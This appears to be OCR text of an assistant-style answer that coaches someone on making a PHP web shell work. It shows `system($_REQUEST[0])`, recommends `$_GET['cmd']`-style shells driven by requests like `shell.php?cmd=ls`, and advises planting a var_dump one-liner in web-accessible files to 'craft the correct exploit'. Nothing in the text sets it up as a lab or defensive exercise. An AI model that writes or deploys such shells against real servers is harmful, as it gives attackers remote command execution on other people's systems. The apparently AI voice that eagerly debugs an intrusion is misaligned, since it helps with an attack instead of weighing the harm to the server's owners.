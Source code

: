 So your original payload:

```php
<?php system($_REQUEST[0]); ?>
```

Would only work **if the attacker sends** `?0=ls`, which is rare and not the usual pattern. That’s why you got **null output**.

* * *

## ✅ HOW TO CHOOSE THE RIGHT ONE

| Superglobal | Use when... | Payload example |
| --- | --- | --- |
| `$_GET` | You control the URL | `?cmd=ls` |
| `$_POST` | You send form data (less common in direct shell usage) | `curl -d "cmd=ls" target` |
| `$_REQUEST` | General fallback for multiple methods, but use a **key** | `?cmd=ls` |
| `$_REQUEST[0]` | Only works with `?0=ls` | ⚠️ Not standard |

* * *

## 🛠️ So the golden rule:

Use **`$_GET['cmd']`** if:

```bash
http://target/shell.php?cmd=ls
```

Use **`$_REQUEST['cmd']`** if you're unsure or might use both GET and POST, but **you must specify the key**, not `[0]`.

* * *

## 🔥 PRO TIP: How to test

Add this one-liner to any web-accessible PHP file:

```php
<?php var_dump($_REQUEST); ?>
```

Then hit:

```
http://target/file.php?cmd=ls
```

It’ll show you **exactly** what the server sees in `$_REQUEST`, so you can craft the correct exploit.

* * *

&nbsp;
